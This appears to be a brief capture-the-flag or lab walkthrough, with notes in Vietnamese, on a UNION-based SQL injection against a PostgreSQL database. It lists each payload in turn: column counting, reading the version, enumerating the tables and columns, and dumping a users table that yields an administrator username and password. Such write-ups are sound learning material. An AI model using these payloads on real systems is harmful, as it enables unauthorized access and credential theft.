 ' ORDER BY 1--
' ORDER BY 2--

' UNION SELECT version(), NULL-- 
(Từ cách dùng version như này thì xác định được là dung PostgreSQL)

' UNION SELECT table_name, NULL FROM information_schema.tables--
(Kiếm information_schema.tables PostgreSQL trên mạng để tìm thì tìm đc tên cột là table_name)

users_dagdkt

' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_dagdkt'--
(Tương tự như trên thì kiếm được bảng rồi thì kiếm tên cột)

password_vofxgd
username_yxxamz
email

'UNION SELECT username_yxxamz, password_vofxgd FROM users_dagdkt--
(Có tên 2 cột là username với pass rồi, mặt khác lại biết tên bảng rồi, thì cho nó hiện ra luôn)

administrator
0k75hb39t3qykxb1bftw

